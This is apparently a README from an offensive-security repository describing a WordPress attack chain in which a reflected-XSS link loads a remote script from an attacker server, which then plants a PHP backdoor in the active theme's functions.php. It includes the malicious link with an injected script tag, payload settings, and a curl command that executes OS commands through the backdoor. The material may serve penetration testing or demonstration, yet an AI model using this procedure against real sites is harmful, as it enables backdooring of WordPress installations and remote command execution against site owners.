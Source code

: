 # [authn] Patch File (RCE)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [setup exploit] identify target WordPress theme

    *(enumerate installed WordPress themes installed on target site)*

2. [setup exploit] change payload variable values (`patchFileWP.js`)

    `phpBdURL` - URL of PHP backdoor to be installed on target site

    `themeName` - WordPress theme name to be patched

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/wordpress"`)

3. [setup exploit] setup web server (to serve the payload/backdoor)

    * **NOTE**: update/customize PHP backdoor in `bd.txt`

4. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/rxss.php?q=<script src=http://192.168.5.5/patchFileWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.5` - web server hosting the payload

6. [post exploit] execute OS command

    ```
    curl "http://192.168.5.10/wp-content/themes/twentytwentyfive/functions.php?pass=test&cmd=id"
    ```

    * **NOTE**: endpoint URL constructed based on specified WordPress theme name + `functions.php`

7. [restore file] restore file via GUI

    *WordPress ➔ Tools ➔ Theme File Editor ➔ Select theme to edit - (select target theme from droplist) -> Select ➔ Theme Functions (functions.php) ➔ (remove backdoor) ➔ Update File*

## Screenshot

* **NOTE**: the screenshot covers steps 2 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/PatchFile/screenshots/WordPress_-_patch_file_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/PatchFile/screenshots/WordPress_-_patch_file_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/f09429bc-da83-476f-9250-91ee15f7f4b0
